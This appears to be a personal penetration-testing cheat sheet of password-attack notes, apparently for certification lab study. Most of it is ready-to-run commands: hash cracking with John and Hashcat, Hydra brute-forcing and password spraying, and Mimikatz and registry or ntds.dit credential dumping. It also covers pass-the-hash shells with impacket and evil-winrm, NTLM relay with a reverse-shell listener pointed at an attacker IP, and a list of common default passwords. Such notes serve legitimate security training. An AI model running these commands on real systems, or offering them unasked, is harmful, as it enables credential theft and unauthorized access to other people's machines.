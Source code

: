 
| [[05 Password Pwning#Hash Analyzer\|Hash Analyzer]]                           | [[05 Password Pwning#JohnTheRipper\|JohnTheRipper]]                 | [[05 Password Pwning#Hashcat\|Hashcat]]                           | [[05 Password Pwning#Hydra\|Hydra]]                                       |
| -------------------------------------------------------------------------- | ---------------------------------------------------------------- | -------------------------------------------------------------- | ---------------------------------------------------------------------- |
| [[05 Password Pwning#Password Manager (KeePass)\|Password Manager (KeePass)]] | [[05 Password Pwning#NTLM\|NTLM]]                                   | [[05 Password Pwning#Net-NTLMv2\|Net-NTLMv2]]                     | [[05 Password Pwning#Windows Credential Guard\|Windows Credential Guard]] |
| [[05 Password Pwning#Manual Hash Dumping\|Manual Hash Dumping]]               | [[05 Password Pwning#Pass-the-Hash Attacks\|Pass-the-Hash Attacks]] | [[05 Password Pwning#GPP-Stored Passwords\|GPP-Stored Passwords]] | [[05 Password Pwning#Side Notes\|Side Notes]]                             |
## Hash Analyzer
```shell
# Can just Google or use this:
https://www.tunnelsup.com/hash-analyzer/
```

## JohnTheRipper
```shell
# Converting encrypted files e.g. id_rsa file
kali@kali:~$ ssh2john id_rsa > hash

# Crack with john
kali@kali:~$ john hash --wordlist=/usr/share/wordlists/rockyou.txt 

# Create rule file and run
kali@kali:~$ john --wordlist=ssh.passwords --rules=sshRules ssh.hash

# Example: ssh.rule
[List.Rules::sshRules]
c $1 $3 $7 $!
c $1 $3 $7 $@
c $1 $3 $7 $#
# EOF
```

## Hashcat
```shell
# Search for hash module number 
# https://hashcat.net/wiki/doku.php?id=example_hashes
kali@kali:~$ hashcat --help | grep -i "ntlm"

# Cracking hash with hashcat
kali@kali:~$ sudo hashcat -m <mode> hash /usr/share/wordlists/rockyou.txt -r <.rule file> --force

### Common hash modes:
# MD5 = 0
# BCrypt (Unix) = 3200
# KeePass = 13400
# id_rsa/SSH = 22921
# NTLM = 1000
# Net-NTLMv2 (Responder) = 5600
# Atlassian/Confluence = 12001
# AS-REP Roasting = 18200
# Kerberoasting = 13100
```
## Hydra
```shell
# SSH Password Dictionary Attack
kali@kali:~$ hydra -l <USERNAME> -P /usr/share/wordlists/rockyou.txt -s <PORT> ssh://<TARGET_IP>

# RDP Password Spraying
kali@kali:~$ hydra -L <USERNAME_LIST> -p "SuperS3cure1337#" rdp://<TARGET_IP>

# HTTP Dictionary Attack
kali@kali:~$ hydra -l <USERNAME> -P /usr/share/wordlists/rockyou.txt <TARGET_IP> http(s)-{get/post}-form "/index.php:fm_usr=user&fm_pwd=^PASS^: Login failed. Invalid"
# use http-head for basic auth
# use http-get for digest auth without colon-delimited fields
# refer to sample response for username and password variable names
# last string is for failed login identifier/condition string
```
## Password Manager (KeePass)
```shell
# Find KeePass database file
PS C:\Users\offsec> Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue

# Find KeePass DB file in Linux
kali@kali:~$ find / -name *.kdbx 2>/dev/null

# Format db file to hash and crack
kali@kali:~$ keepass2john Database.kdbx > keepass.hash # Remove username if have
kali@kali:~$ hashcat -m 13400 keepass.hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/rockyou-30000.rule --force
```

## NTLM
```powershell
# Run Mimikatz (as Admin preferably)
PS C:\Users\offsec> .\mimikatz.exe

# Standard elevation 
mimikatz> token::elevate
mimikatz> privilege::debug

# Extract NTLM hashes from SAM
mimikatz> lsadump::sam

# Extract plaintext password/hashes from all sources
mimikatz> sekurlsa::logonpasswords

# Run hashcat against hashes
kali@kali:~$ hashcat -m 1000 nelly.hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```
## Net-NTLMv2
```powershell
# Check interfaces and run Responder with desired interface
kali@kali:~$ ip a
kali@kali:~$ sudo respnder -I <INTERFACE>

# Send a request to responder SMB from target PC
C:\Windows\system32> dir \\<KALI_IP>\test

# Crack hash shown in responder tab
kali@kali:~$ sudo hashcat -m 5600 resp.hash /usr/share/wordlists/rockyou.txt
```
## Windows Credential Guard
```powershell
# Check if CredentialGuard is running
PS C:\Users\offsec> Get-ComputerInfo
# Look for DeviceGuardSecurityServicesConfigured

# Inject SSP and log plaintext passwords
mimikatz> privilege::debug
mimikatz> misc:memssp

# Check log file for passwords (for users that logged in)
PS C:\Users\offsec> type C:\Windows\System32\mimilsa.log
```
## Manual Hash Dumping
```powershell
# Dump hashes from registry
PS C:\Users\offsec> reg save HKLM\system SYSTEM
PS C:\Users\offsec> reg save HKLM\sam SAM

# Transfer to Kali then extract hashes
kali@kali:~$ impacket-secretsdump -sam SAM -system SYSTEM local
# Format: UID:RID:LMHash:NTHash

# With SeBackupPrivilege, can create shadow copy
kali@kali:~$ nano jackie.dsh # check common payloads for content
kali@kali:~$ unix2dos jackie.dsh
Evil-WinRM C:\Users\jackie> upload jackie.dsh
Evil-WinRM C:\Users\jackie> diskshadow /s jackie.dsh
Evil-WinRM C:\Users\jackie> robocopy /b z:\windows\ntds . ntds.dit
Evil-WinRM C:\Users\jackie> download ntds.dit

# Now extract hashes
kali@kali:~$ impacket-secretsdump -ntds ntds.dit -system SYSTEM local

# Crack the hashes or use for Pass-The-Hash attacks
# Backup Operators can dump SAM and SYSTEM registry !!
```

## Pass-the-Hash Attacks
```shell
# Access SMB with NTLM hash
kali@kali:~$ smbclient \\\\<TARGET_IP>\\share -U Administrator --pw-nt-hash <NTLM_hash>

# Get shell with NTLM hash
kali@kali:~$ impacket-psexec -hashes 00000000000000000000000000000000:<NTLM_hash> <USERNAME>@<IP> <COMMAND or blank for cmd.exe>
# 32 0's are placeholder, can use LM hash too

# Get shell with NTLM hash 2
kali@kali:~$ impacket-wmiexec -debug -hashes 00000000000000000000000000000000:<NTLM_hash> <DOMAIN/USER>@<IP>

# Getting reverse shell by relaying Net-NTLMv2
kali@kali:~$ impacket-ntlmrelayx -no-http-server -smb2support -t <TARGET_IP> -c "<pwsh reverse shell one-liner encoded>"
# Refer to https://gist.github.com/egre55/c058744a4240af6515eb32b2d33fbed3
# Final output should be "powershell -enc xxx"
kali@kali:~$ nc -lvnp 4444 # setup reverse shell listener
C:\Users\offsec> dir \\<KALI_IP>\test # system1 requests smb connection to kali for relay

# Pass-the-Hash with Evil-WinRM
kali@kali:~$ evil-winrm -i <TARGET_IP> -u Administrator -H <NT_Hash)
```
## GPP-Stored Passwords
```shell
# Decrypt Group Policy Preferences-Stored passwords (found in shares\sysvol)
kali@kali:~$ gpp-decrypt "<HASH>"
```
## Side Notes
- Have a valid username first
- Try various basic shit first e.g.:
	- admin:admin
	- username:username
- If service-related, try default passwords (Google)
	- E.g. service name is the username, same name for password
- ALL PASSWORDS IN ROCKYOU.TXT (and maybe additional rule file ?)
- Some default passwords to try:
	- password
	- password1
	- Password1
	- Password@123
	- password@123
	- admin
	- administrator
	- admin@123
	- secret